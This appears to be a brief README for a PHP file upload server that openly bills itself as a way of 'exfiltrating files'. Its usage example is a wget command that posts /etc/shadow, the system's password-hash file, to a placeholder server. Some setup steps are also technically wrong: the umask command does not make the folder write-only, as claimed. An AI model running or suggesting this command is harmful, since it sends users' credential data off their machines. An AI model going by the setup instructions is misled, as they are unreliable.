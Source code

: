 # PHP File Uploader
A secure and efficient solution for uploading and exfiltrating files using PHP.

## Installation
1. Host the "upload.php" file on your server.

```
php -S 127.0.0.1:8080 -t .
```
2. Create the "upload" directory and configure its settings.

```
mkdir upload
```
3. Set the appropriate permissions for the "upload" folder (write-only).

```
cd upload && umask 555
```
4. Optionally, change the ownership of the "upload" folder to enhance security.

```
useradd dummy && chown dummy upload
```

## Usage
To upload a file to the server, use the following method as an example:

```
wget --post-file=/etc/shadow <server_ip>/upload.php?file=shadow
```

Replace `<server_ip>` with the IP address of your server and adjust the file path as needed.